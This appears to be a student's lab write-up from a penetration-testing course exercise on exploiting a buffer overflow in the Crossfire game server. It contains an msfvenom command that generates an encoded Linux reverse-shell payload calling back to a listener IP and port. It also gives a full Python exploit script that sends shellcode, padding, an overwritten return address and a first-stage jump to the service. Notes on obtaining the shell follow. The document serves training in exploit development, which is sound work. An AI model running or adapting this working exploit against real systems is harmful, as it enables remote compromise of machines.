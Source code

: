 ### 12.7.1.1 Exercises
#### 1. Update your proof-of-concept to include a working payload.

- Payload generated with msfvenom

  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00\x20" -v shellcode
  ```

- PoC code updated:

  ```python
  #!/usr/bin/python3
  import socket
  host = "192.168.216.44"
  eip = b"\x96\x45\x13\x08"
  nopsled = b"\x90" * 8
  shellcode =  b""
  shellcode += b"\xda\xd2\xd9\x74\x24\xf4\xbd\x26\x3a\xf4\x4f"
  shellcode += b"\x5a\x2b\xc9\xb1\x12\x83\xc2\x04\x31\x6a\x13"
  shellcode += b"\x03\x4c\x29\x16\xba\xa1\x96\x21\xa6\x92\x6b"
  shellcode += b"\x9d\x43\x16\xe5\xc0\x24\x70\x38\x82\xd6\x25"
  shellcode += b"\x72\xbc\x15\x55\x3b\xba\x5c\x3d\x7c\x94\xe8"
  shellcode += b"\x65\x14\xe7\x16\x8a\xa5\x6e\xf7\x04\x43\x21"
  shellcode += b"\xa9\x37\x3f\xc2\xc0\x56\xf2\x45\x80\xf0\x63"
  shellcode += b"\x69\x56\x68\x14\x5a\xb7\x0a\x8d\x2d\x24\x98"
  shellcode += b"\x1e\xa7\x4a\xac\xaa\x7a\x0c"
  crash = b"\x41" * (4368 - len(shellcode) - len(nopsled))
  first_stage = b"\x83\xc0\x0c\xff\xe0\x90\x90"
  buffer = b"\x11(setup sound " + shellcode + crash + eip + first_stage +"\x90\x00#"
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  print ("[*]Sending evil buffer...")
  s.connect((host, 13327))
  print (s.recv(1024))
  s.send(buffer)
  s.close()
  print ("[*]Payload Sent !")
  ```

#### 2. Obtain a shell from the Crossfire application with and without a debugger

**<u>With debugger:</u>**

- Executed PoC, shell connects, but is stuck, execution pauses in debugger

  ![image-20200709195558948](.12.7.1.1.assets/image-20200709195558948.png)

  ![image-20200709195627733](.12.7.1.1.assets/image-20200709195627733.png)

- Pressing F9 resumes produces an error.  After clearing the error, the shell executes the first command I entered, then it pauses again in the debugger.  I have to keep resuming and clearing the error for every command.
  ![image-20200709195719248](.12.7.1.1.assets/image-20200709195719248.png)
  ![image-20200709195814389](.12.7.1.1.assets/image-20200709195814389.png)

**<u>Without Debugger</u>**

- No pauses, shell is established and operates without any issue:
  ![image-20200709195429513](.12.7.1.1.assets/image-20200709195429513.png)
